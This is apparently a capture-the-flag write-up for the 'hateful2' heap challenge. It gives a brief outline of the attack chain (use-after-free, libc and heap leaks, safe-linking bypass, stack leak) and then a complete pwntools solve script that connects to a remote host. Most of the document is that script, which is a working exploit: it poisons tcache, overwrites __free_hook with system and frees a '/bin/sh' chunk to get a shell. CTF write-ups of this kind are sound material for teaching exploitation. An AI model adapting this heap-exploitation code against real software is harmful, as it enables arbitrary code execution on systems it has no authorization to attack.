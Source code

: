 # hateful2

## Exploit

We have a use-after-free vulnerability.

- First we get a libc leap, using unsorted bin attack
- We also get heap leak to bypass safe-linking
- After that we leak the arguments in `environ` using the libc address, to get stack leak
- Now we can overwrite rip to our rop chain

the [solve script](solve.py)

```pytohn
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hateful2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("52.59.124.14",5022)

    return r

def malloc(idx,sze,pl):
    r.sendlineafter(b'>>',b'1')
    r.sendlineafter(b':',str(idx).encode())
    r.sendlineafter(b':',str(sze).encode())
    r.recvuntil(b'>>')
    r.send(pl)
def edit(idx,pl):
    r.sendlineafter(b'>>',b'2')
    r.sendlineafter(b':',str(idx).encode())
    r.recvuntil(b'>>')
    r.send(pl)
def view(idx):
    r.sendlineafter(b'>>',b'3')
    r.sendlineafter(b':',str(idx).encode())
    r.recvuntil(b':')
    return r.recvline().strip()
def free(idx):
    r.sendlineafter(b'>>',b'4')
    r.sendlineafter(b':',str(idx).encode())

r = conn()
for i in range(9):
    malloc(i,0x98,b'a')
for i in range(9):
    free(8-i)
libc.address = unpack(view(0),'all') - 0x1d2cc0
heap_base = unpack(view(8),'all')<<12
#exit_funcs = libc.address+0x1d2820
#ptr_guard = libc.address-0x28c0 +0x30
#print(hex(ptr_guard))
#print(hex(exit_funcs))
fh = libc.sym['__free_hook']
print("heap base:",(hex(heap_base)))
print("libc base:",hex(libc.address))
print("free hook:",hex(libc.sym['__free_hook']))
malloc(1,0x38,b'a')
free(1)
edit(1,b'a'*16)
free(1)
tw = (fh & ~(0xf)) ^((heap_base)>>12)
edit(1,p64(tw)+b'a')
print(hex(tw))
malloc(1,0x38,p8(tw & 0xff))
malloc(2,0x38,b'a'*8+p64(libc.sym.system))
malloc(3,0x20,b'/bin/sh')
free(3)
r.interactive()
```


